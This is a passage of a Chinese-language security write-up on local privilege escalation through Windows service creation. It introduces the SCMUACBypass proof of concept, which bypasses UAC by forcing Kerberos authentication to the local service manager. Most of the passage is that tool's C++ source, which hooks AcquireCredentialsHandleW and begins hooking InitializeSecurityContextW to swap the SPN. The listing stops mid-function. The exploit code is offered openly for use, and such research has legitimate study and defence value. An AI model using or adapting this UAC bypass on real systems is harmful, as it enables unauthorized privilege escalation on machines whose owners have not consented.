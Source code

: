 现在，我们可以通过调用 SCM APIs 创建系统服务实现本地提权。这项工作可以借助 [SCMUACBypass](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82) 项目完成。

### SCMUACBypass

[SCMUACBypass](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82) 原本是通过 Kerberos 进行本地身份验证以绕过 UAC 的概念 POC，是 James Forshaw（[@tiraniddo](https://twitter.com/tiraniddo)）在 2022 年 3 月的一项研究成果，其核心源码如下：

```c++
// This modifies the authentication to the local SCM to use Kerberos to abuse
// a UAC bypass through Kerberos tickets.
// See https://www.tiraniddo.dev/2022/03/bypassing-uac-in-most-complex-way.html

#define SECURITY_WIN32
#include <windows.h>
#include <sspi.h>
#include <security.h>
#include <stdio.h>
#include <string>
#include <strsafe.h>

#pragma comment(lib, "Secur32.lib")

static std::wstring spn;

SECURITY_STATUS SEC_ENTRY AcquireCredentialsHandleWHook(
    _In_opt_  LPWSTR pszPrincipal,                // Name of principal
    _In_      LPWSTR pszPackage,                  // Name of package
    _In_      unsigned long fCredentialUse,       // Flags indicating use
    _In_opt_  void* pvLogonId,                   // Pointer to logon ID
    _In_opt_  void* pAuthData,                   // Package specific data
    _In_opt_  SEC_GET_KEY_FN pGetKeyFn,           // Pointer to GetKey() func
    _In_opt_  void* pvGetKeyArgument,            // Value to pass to GetKey()
    _Out_     PCredHandle phCredential,           // (out) Cred Handle
    _Out_opt_ PTimeStamp ptsExpiry                // (out) Lifetime (optional)
)
{
    WCHAR kerberos_package[] = MICROSOFT_KERBEROS_NAME_W;
    printf("AcquireCredentialsHandleHook called for package %ls\n", pszPackage);
    if (_wcsicmp(pszPackage, L"Negotiate") == 0) {
        pszPackage = kerberos_package;
        printf("Changing to %ls package\n", pszPackage);
    }
    return AcquireCredentialsHandleW(pszPrincipal, pszPackage, fCredentialUse,
        pvLogonId, pAuthData, pGetKeyFn, pvGetKeyArgument, phCredential, ptsExpiry);
}

SECURITY_STATUS SEC_ENTRY InitializeSecurityContextWHook(
    _In_opt_    PCredHandle phCredential,               // Cred to base context
    _In_opt_    PCtxtHandle phContext,                  // Existing context (OPT)
    _In_opt_ SEC_WCHAR* pszTargetName,         // Name of target
    _In_        unsigned long fContextReq,              // Context Requirements
    _In_        unsigned long Reserved1,                // Reserved, MBZ
    _In_        unsigned long TargetDataRep,            // Data rep of target
    _In_opt_    PSecBufferDesc pInput,                  // Input Buffers
    _In_        unsigned long Reserved2,                // Reserved, MBZ
    _Inout_opt_ PCtxtHandle phNewContext,               // (out) New Context handle
    _Inout_opt_ PSecBufferDesc pOutput,                 // (inout) Output Buffers
    _Out_       unsigned long* pfContextAttr,  // (out) Context attrs
    _Out_opt_   PTimeStamp ptsExpiry                    // (out) Life span (OPT)
)
{
    // Change the SPN to match with the UAC bypass ticket you've registered.
```